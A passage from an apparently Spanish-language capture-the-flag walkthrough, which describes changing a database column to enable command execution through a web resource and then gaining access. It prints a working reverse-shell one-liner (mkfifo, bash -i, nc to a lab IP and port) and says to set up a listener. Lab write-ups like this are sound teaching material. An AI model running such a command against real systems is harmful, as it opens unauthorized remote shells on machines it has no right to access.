 ![](/assets/images/Luniz/image033.png)

Podemos observar que llegamos a cambiar el valor del registro de la columna run. Además, si volvemos a observar el recurso whatever desde nuestro navegador web, observaremos que esta en modo 1, y que nos permite ejecutar comandos en el sistema destino.

## FASE HACKING O GANAR ACCESO O EXPLOTACION

Ahora ejecutaremos este comando: `mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1500` para que nos genere una reverse Shell, pero antes no nos olvidemos de poner en escucha el puerto 1500 en nuestro sistema para que acepte la conexión entrante por la reverse Shell.

![](/assets/images/Luniz/image035.png)

![](/assets/images/Luniz/image037.png)
